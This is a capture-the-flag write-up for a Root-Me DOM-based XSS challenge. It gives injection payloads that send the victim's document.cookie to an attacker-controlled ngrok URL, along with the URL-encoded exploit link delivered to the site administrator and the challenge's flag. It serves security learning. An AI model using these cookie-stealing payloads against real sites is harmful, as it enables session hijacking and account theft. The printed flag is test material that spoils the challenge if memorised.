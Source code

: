 # XSS DOM Based - Introduction

**Point**: 35 Points

**Description**: An introduction to DOM Based Cross Site Scripting attacks

## Solution:

There's a simple form:

<p align="center"><img width="450px" height="180px" src="https://user-images.githubusercontent.com/48288606/158972341-dc36c6b1-9967-4032-abfc-c84d30e9cc46.png"/></p>

Let's check whether XSS is possible. This is a DOM-based XSS, so our casual measure is inputing an arbitrary string and find out where it is placed in the source code. Let's try input: `an_arbitrary_string` and then submit.

Find the content in file by `Ctrl + Shift + F` (Window). 

<p align="center"> <img  src="https://user-images.githubusercontent.com/48288606/158973371-2fce448f-232e-4307-980d-a750722b74cb.png"> </p>

With that, we can easy escape the string and inject our malicious code. Try `'; alert(1); var nothing= '`

An pop-up comes up. We successfully did it ! Now we have to delivery all collected cookie from victim (administrator) to a specific server that we take control as usual. Try the normal payload right in `alert(1)`. Payload will look like this:

```javascript
'; document.write("<img src='{your_server_link_site}?cookie=" + document.cookie + "' />"); var nothing= '
```

Let's take action step-by-step:

1. Run PHP server with **localhost** and optional **port** : `php -S localhost:4444 hacking.php`

2. Public our server by tunneling. I use **ngrok** to serve this purpose:
   - Connect to ngrok with your account token: `ngrok authtoken {your_account_token}`
   - Tunneling our local site to public network with port specified above: `ngrok http 4444`
   - Get the public link we get from ngrok and create with payload above.
   <p align="center"><img src="https://user-images.githubusercontent.com/48288606/158975336-dbb446d1-cc7b-46c3-b18e-f92450e570dd.png" /></p>

3. Send our payload:
```javascript
'; document.write("<img src='http://efcf-113-161-77-200.ngrok.io?cookie=" + document.cookie + "' />"); var nothing= '
``` 
But wait, something's not true

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/158975937-e515d308-6385-412a-ba26-30bdedd995f7.png" /> </p>

Check the source code again. 

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/158976463-381f71bf-84c7-4cb5-ac2c-380f59c543f3.png" /> </p>

Symbols like `<` and `>` are removed when the input's analyzed by back-end server. We try to think of other solution to bypass this. By not using any tags (because it's contain `<>` symbols), we take advantage of `document.location` and when the page direct to our site, it would **REQUEST** our resources and we can see the full path contains cookie of victim .

Payload: 
```javascript
'; document.location="http://efcf-113-161-77-200.ngrok.io?cookie=" + document.cookie; var nothing= '
```
As a result, we can direct to our site when submitting !

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/158977945-7fe237c0-c719-480e-9637-8c2eb5454422.png" /> </p>

Now we just have to move to the **Contact** section to submit our malicious link to administrator.

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/158978185-0175d708-764d-47a4-b558-957cce44868b.png" /> </p>

There's one more problem we have to deal with. When we submit, the page quickly directs to our site so we can't have enough time to "collect" the URL. We should decode our payload ([Use this!](https://www.urlencoder.org/) and set **number** param with decoded value for creating our own links.

Decoded payload:
```
%27%3B%20document.location%3D%22http%3A%2F%2Fefcf-113-161-77-200.ngrok.io%3Fcookie%3D%22%20%2B%20document.cookie%3B%20var%20nothing%3D%20%27
```
Full payload: 
```
http://challenge01.root-me.org/web-client/ch32/index.php?number=%27%3B%20document.location%3D%22http%3A%2F%2Fefcf-113-161-77-200.ngrok.io%3Fcookie%3D%22%20%2B%20document.cookie%3B%20var%20nothing%3D%20%27
```
Submit to admin. Wait a while .Be patient ! It took a lots of time.

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/158979094-7153a653-0dd0-401a-b37d-740e53922820.png" /> </p>

The cookie create by **administrator** shown up in the log.

FLag: **rootme{XSS_D0M_BaSed_InTr0}**

